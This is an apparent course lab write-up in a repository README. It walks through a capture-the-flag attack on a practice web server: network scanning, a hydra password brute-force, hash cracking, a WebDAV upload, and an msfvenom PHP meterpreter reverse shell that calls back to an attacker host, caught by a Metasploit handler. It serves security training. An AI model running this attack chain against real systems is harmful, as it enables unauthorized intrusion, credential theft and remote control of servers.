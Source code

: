 ### Red Team 
In this activity, you will use a Kali instance to hack into a vulnerable web server. Hidden in the web server is a file called `flag.txt`. You will need to use a reverse php shell to gain access to the web server to recover the `flag.txt` document. 

**Part 1: Red Team Objectives**
Complete the following in order to find the flag:
- Discover the IP address of the Linux server.
```
netdiscover
```
<img src="images/red-01.png" />

```
Db_nmap 172.16.84.205 -Pn -p-
```
<img src="images/red-02.png" />

```
Db_nmap 172.16.84.205 -A
```
<img src="images/red-03.png" />

```
Nikto --host http://172.16.84.205
```
<img src="images/red-04.png" />
<img src="images/red-05.png" />

```
printf “GET / HTTP/1.0\r\n\r\n” | nc 172.16.84.205 80 | less
```
<img src="images/red-06.png" />

- Use Burp Suite to generate a sitemap by manually browsing the site.
<img src="images/red-07.png" />

- Use Burp Spider to expand your sitemap.
<img src="images/red-08.png" />

- Locate the hidden directory on the server.
company_folders/secret_folder
<img src="images/red-09.png" />

- Brute force the password for the hidden directory.
<img src="images/red-10.png" />

```
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 172.16.84.205 http-get /company_folders/secret_folder/
```
<img src="images/red-11.png" />
<img src="images/red-12.png" />

- Break the hash password with John the Ripper
<img src="images/red-13.png" />

- Connect to the server via Webdav.
<img src="images/red-14.png" />

- Generating a reverse shell with msfvenom.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.84.55 LPORT=6666 -f raw -or evil.php
```
<img src="images/red-15.png" />

- Upload a reverse php connection payload.
<img src="images/red-16.png" />

```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.84.55
LHOST => 172.16.84.55
msf exploit(handler) > set LPORT 6666
LPORT => 6666
msf exploit(handler) > exploit
```

- Capture and show the flag.
<img src="images/red-17.png" />

